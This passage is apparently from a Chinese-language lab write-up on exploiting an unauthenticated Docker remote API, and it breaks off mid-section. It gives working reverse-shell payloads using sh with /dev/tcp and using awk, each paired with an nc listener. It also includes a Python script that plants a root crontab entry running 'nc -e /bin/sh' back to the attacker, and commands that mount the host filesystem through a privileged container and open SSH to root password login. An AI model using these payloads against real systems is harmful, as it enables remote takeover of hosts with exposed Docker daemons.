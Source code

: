 ### 3.2.1 sh 或者 awk 反弹 shell  
1. sh 反弹shell  
	payload：
	```shell
	sh -i >& /dev/tcp/192.168.88.130/9001 0>&1
	```
	在攻击端开启监听：`nc -lvnp 9001`，成功监听，结果如下：
	![sh-反弹shell](https://image.yiscook.top/blog-image/202404171756290.png)  

2. awk 反弹shell  
	payload：
	```shell
	awk 'BEGIN {s = "/inet/tcp/0/192.168.88.130/9001"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
	```
	在攻击端开启监听：`nc -lvnp 9001`，成功监听，结果如下：  
	![awk-反弹shell](https://image.yiscook.top/blog-image/202404171800080.png)

### 3.2.2 crontab 定时任务反弹 shell  
此处可以使用 vulhub 给出的 payload 进行利用：
```python
import docker

client = docker.DockerClient(base_url='http://target-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```
1. 将 `target-ip` 更换为存在 docker 服务的目标 ip 地址，`your-ip` 更换为开启监听的 ip 地址  
2. 运行 `alpine:latest` 这一指定的容器镜像  
3. 挂载主机的 `/etc` 目录到容器内的 `/tmp/etc` 目录，设置为读写模式：`volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}}`
4. 在容器中执行 `sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root"` shell 命令，并且添加到定时任务中，目的是反弹 shell 到开启监听指定 ip 地址的 21 端口  
5. 容器运行后自动删除，`remove=True`  
![payload-result](https://image.yiscook.top/blog-image/202404301759484.png)  
可以看到已经成功写入了定时任务。  
如果该指令没有执行，可能是 crontab 服务没有及时刷新。  

### 3.2.3 写入公钥  
因靶场并没有使用到 ssh 服务，所以这部分记录一下提供思路。  
1. 将存在未授权访问漏洞的 docker 目标的根目录挂载到 busybox 的/mnt 目录下。（选用 busybox 命令比较齐全）：  
	-  `--rm`：容器停止时，自动删除该容器  
	- `–privileged`：container 内的 root 拥有真正的 root 权限。否则，container 内的 root 只是外部的一个普通用户权限。privileged 启动的容器，可以看到很多 host 上的设备，并且可以执行 mount。甚至允许你在 docker 容器中启动 docker 容器。  
	- `chroot`：将根目录切换到 `/mnt` 下  
	```shell
	docker -H tcp://target-ip run --rm --privileged -it -v /:/mnt busybox chroot /mnt sh
	```
2. 修改 ssh 相关的配置文件，并重启 ssh 服务：  
	```shell
	sed -i -e ‘s/\#Port 22/Port 22/g’ -e ‘/^Port 22/a\Port 2433’ -e ‘s/\#PermitRootLogin/PermitRootLogin/g’ -e ‘s/PermitRootLogin no/PermitRootLogin yes/g’ -e ‘s/PermitRootLogin without-password/PermitRootLogin yes/g’ -e ‘s/PermitRootLogin prohibit-password/PermitRootLogin yes/g’ -e ‘s/PasswordAuthentication no/PasswordAuthentication yes/g’ -e ‘s/GSSAPIAuthentication yes/GSSAPIAuthentication no/g’ -e ‘s/GSSAPICleanupCredentials yes/GSSAPICleanupCredentials no/g’ /etc/ssh/sshd_config
	